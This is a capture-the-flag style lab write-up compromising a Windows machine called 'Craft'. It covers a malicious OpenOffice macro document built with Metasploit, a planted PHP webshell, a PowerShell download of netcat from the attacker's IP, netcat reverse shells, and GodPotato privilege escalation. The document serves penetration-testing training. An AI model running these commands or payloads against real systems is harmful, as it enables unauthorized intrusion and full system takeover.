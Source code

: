 # Craft

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.169
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 23:30 +08
Nmap scan report for 192.168.197.169
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

### OpenOffice Macros --> Shell

The HTTP site was a Lorem Ipsum website:

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

If we scroll down, we can see that there is a file upload for our 'resume'.

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

I tried to upload an image, and this triggered an error:

<figure><img src="../../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

An ODT file is similar to a Microsoft Word document, which can be created using `libreoffice`. Seeing that we can only upload ODT files, this machine might have a script opening the files and being able to trigger some macros embedded within the file.&#x20;

We can use `msfconsole` to generate this file:

```
msf6 exploit(multi/misc/openoffice_document_macro) > set LHOST tun0
LHOST => 192.168.45.197
msf6 exploit(multi/misc/openoffice_document_macro) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/misc/openoffice_document_macro) > 
[*] Started reverse TCP handler on 192.168.45.197:4444 
[*] Using URL: http://192.168.45.197:8080/HugvG5t95RCfjWq
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[*] Packaging file: meta.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging file: styles.xml
[+] msf.odt stored at /home/kali/.msf4/local/msf.odt
```

Afterwards, we can upload this file to the machine and wait for the script to open it:

```
[*] 192.168.197.169  openoffice_document_macro - Sending payload
[*] Command shell session 1 opened (192.168.45.197:5555 -> 192.168.197.169:49737) at 2023-07-05 23:39:11 +0800
msf6 exploit(multi/misc/openoffice_document_macro) > sessions

Active sessions
===============

  Id  Name  Type               Information                    Connection
  --  ----  ----               -----------                    ----------
  1         shell x64/windows  Shell Banner: Microsoft Windo  192.168.45.197:5555 -> 192.16
                               ws [Version 10.0.17763.2029]   8.197.169:49737 (192.168.197.
                               -----                          169)

```

Resume this sesison to drop into our shell:

<figure><img src="../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache User Shell

When checking the users present, we can see that there's an `apache` user:

```
 Directory of C:\Users

07/13/2021  03:35 AM    <DIR>          .
07/13/2021  03:35 AM    <DIR>          ..
05/28/2021  03:53 AM    <DIR>          Administrator
02/17/2023  03:36 PM    <DIR>          apache
05/28/2021  03:53 AM    <DIR>          Public
02/17/2023  03:36 PM    <DIR>          thecybergeek
```

The next step might be to get a shell as this user. Since there's a website being hosted on the machine, we can start there. I found that we can write to the webroot folder:

```
 Directory of C:\xampp\htdocs

07/13/2021  03:18 AM    <DIR>          .
07/13/2021  03:18 AM    <DIR>          ..
07/13/2021  03:18 AM    <DIR>          assets
07/13/2021  03:18 AM    <DIR>          css
07/07/2021  10:53 AM             9,635 index.php
07/13/2021  03:18 AM    <DIR>          js
07/07/2021  09:56 AM               835 upload.php
07/05/2023  08:38 AM    <DIR>          uploads
               2 File(s)         10,470 bytes
               6 Dir(s)  10,492,981,248 bytes free

C:\xampp\htdocs>echo hello > hello.txt
echo hello > hello.txt
```

As such, we can drop a `cmd.php` webshell within this file and verify that we have RCE as `apache`:

```
$ curl http://192.168.197.169/cmd.php?cmd=whoami
craft\apache
```

We can then download `nc64.exe` onto the machine and get a shell as `apache`:

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=powershell -c wget 192.168.45.197/nc64.exe -Outfile C:/Windows/Tasks/nc.exe' http://192.168.197.169/cmd.php

$ curl -G --data-urlencode 'cmd=C:/Windows/Tasks/nc.exe -e cmd.exe 192.168.45.197 21' http://192.168.197.169/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>

### SeImpersonatePrivilege

This user has the `SeImpersonatePrivilege` enabled:

```
C:\xampp\htdocs>whoami /priv 
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We can use `godpotato.exe` to exploit this:

{% code overflow="wrap" %}
```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.197 21"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

Rooted!
